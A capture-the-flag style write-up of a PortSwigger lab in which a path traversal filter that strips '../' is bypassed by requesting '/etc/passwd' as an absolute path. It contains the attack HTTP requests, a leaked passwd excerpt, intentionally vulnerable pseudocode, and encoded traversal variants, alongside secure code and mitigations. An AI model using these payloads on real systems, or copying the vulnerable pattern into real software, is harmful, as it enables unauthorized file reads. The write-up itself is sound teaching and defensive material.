

# Lab 02: File Path Traversal, Traversal Sequences Blocked with Absolute Path Bypass

> **Topic**: Path Traversal
> **Lab Number**: 02
> **Platform**: PortSwigger Web Security Academy

## Category
Path Traversal — Absolute Path Bypass (Filter Strips `../` but Allows Absolute Paths)

## Vulnerability Summary
The application serves product images via `GET /image?filename=<value>` and attempts to block path traversal by stripping or rejecting `../` sequences. However, the filter only targets relative traversal sequences and does not validate whether the supplied value is an absolute path. Supplying `/etc/passwd` directly — with no traversal sequences at all — bypasses the filter entirely. The server passes the absolute path straight to the filesystem `open()` call, returning the file contents with a 200 OK.

## Attack Methodology

### Step 1: Identify the Image Endpoint
Product images are loaded via:

```http
GET /image?filename=45.jpg HTTP/2
Host: 0a24001f04f3934e810d6175001e0037.web-security-academy.net
Cookie: session=jMSmwEWfqglu7XKJzDFbWEX1wvMCCzcg
```

### Step 2: Test Basic Traversal (Blocked)
A naive `../../../etc/passwd` payload is blocked by the filter — the application strips or rejects `../` sequences.

### Step 3: Bypass with Absolute Path
Since the filter only targets relative traversal sequences, supplying an absolute path skips the filter entirely:

```http
GET /image?filename=/etc/passwd HTTP/2
Host: 0a24001f04f3934e810d6175001e0037.web-security-academy.net
Cookie: session=jMSmwEWfqglu7XKJzDFbWEX1wvMCCzcg
```

No `../` in the payload — the filter has nothing to match against.

### Step 4: Server Returns `/etc/passwd`

```http
HTTP/2 200 OK
Content-Type: image/jpeg
X-Frame-Options: SAMEORIGIN
Content-Length: 2316

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
...
```

200 OK with full `/etc/passwd` contents. Lab solved.



## Technical Root Cause

### Vulnerable Code (Pseudocode)
```python
import os

IMAGE_DIR = '/var/www/images'

def serve_image(request):
    filename = request.GET.get('filename', '')
    # Incomplete filter: only strips ../ sequences
    filename = filename.replace('../', '')
    path = os.path.join(IMAGE_DIR, filename)
    with open(path, 'rb') as f:
        return HttpResponse(f.read(), content_type='image/jpeg')
```

`os.path.join('/var/www/images', '/etc/passwd')` returns `/etc/passwd` — Python's `os.path.join` discards all preceding components when it encounters an absolute path component. The `../` filter is irrelevant because the payload contains no `../`.

### The `os.path.join` Absolute Path Trap

```python
>>> import os
>>> os.path.join('/var/www/images', '/etc/passwd')
'/etc/passwd'
```

Any absolute path supplied as the second argument completely overrides the base directory. This is standard POSIX behaviour, not a bug in Python — but it is a critical pitfall when building file paths from user input.

### Secure Code
```python
import os

IMAGE_DIR = '/var/www/images'

def serve_image(request):
    filename = request.GET.get('filename', '')
    # Resolve canonical path and enforce boundary
    path = os.path.realpath(os.path.join(IMAGE_DIR, filename))
    if not path.startswith(IMAGE_DIR + os.sep):
        return HttpResponseForbidden('Access denied')
    with open(path, 'rb') as f:
        return HttpResponse(f.read(), content_type='image/jpeg')
```

`os.path.realpath` resolves the full canonical path regardless of whether the input is relative or absolute. The boundary check then rejects anything outside `IMAGE_DIR` — both `../../../etc/passwd` and `/etc/passwd` are caught by the same check.

## Impact
- **Filter Completely Bypassed**: A `../`-stripping filter provides zero protection against absolute path inputs
- **Arbitrary File Read**: Any file readable by the web server process is accessible
- **No Authentication Required**: The endpoint is publicly accessible

**Severity: High**

## Proof of Concept

```
GET /image?filename=/etc/passwd HTTP/2
Host: <lab-id>.web-security-academy.net
```

Response: `HTTP/2 200 OK` with full `/etc/passwd` contents.

## Key Takeaways
1. **Blacklist Filtering Is Fragile**: Blocking `../` only addresses one form of path traversal. Absolute paths, URL-encoded variants (`%2e%2e/`), and double-encoded variants (`%252e%252e/`) all bypass a `../`-only filter. Canonical path resolution + boundary check is the only robust defence.
2. **`os.path.join` Discards the Base on Absolute Input**: This is a well-known Python (and POSIX) behaviour. Never assume `os.path.join(base, user_input)` stays within `base` — always follow with `os.path.realpath` and a `startswith` check.
3. **Validate the Result, Not the Input**: Input validation on the raw string is inherently incomplete because there are too many ways to express the same path. Validate the resolved, canonical output path against the allowed directory instead.
4. **Allowlisting Is Stronger**: If filenames are predictable (e.g., `[a-z0-9]+\.(jpg|png)`), an allowlist regex on the raw input eliminates the entire attack surface before any path construction happens.

## Mitigation

### 1. Canonical Path + Boundary Check (Primary)
```python
path = os.path.realpath(os.path.join(IMAGE_DIR, filename))
if not path.startswith(IMAGE_DIR + os.sep):
    abort(403)
```

### 2. Allowlist Filename Format
```python
import re
if not re.fullmatch(r'[a-zA-Z0-9_\-]+\.(jpg|jpeg|png|gif|webp)', filename):
    abort(400)
```
Rejects absolute paths, traversal sequences, and unexpected extensions in one step.

### 3. Serve by ID, Not Filename
```python
image_path = db.get_image_path(product_id)  # filename never touches the client
```

## References
- [PortSwigger — File Path Traversal, Traversal Sequences Blocked with Absolute Path Bypass](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass)
- [PortSwigger — Path Traversal](https://portswigger.net/web-security/file-path-traversal)
- [OWASP — Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
- [CWE-22: Improper Limitation of a Pathname to a Restricted Directory](https://cwe.mitre.org/data/definitions/22.html)
- [Python docs — os.path.join behaviour with absolute components](https://docs.python.org/3/library/os.path.html#os.path.join)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Chromium

---

*Lab completed on: 2026-05-08*  
*Writeup by vibhxr*
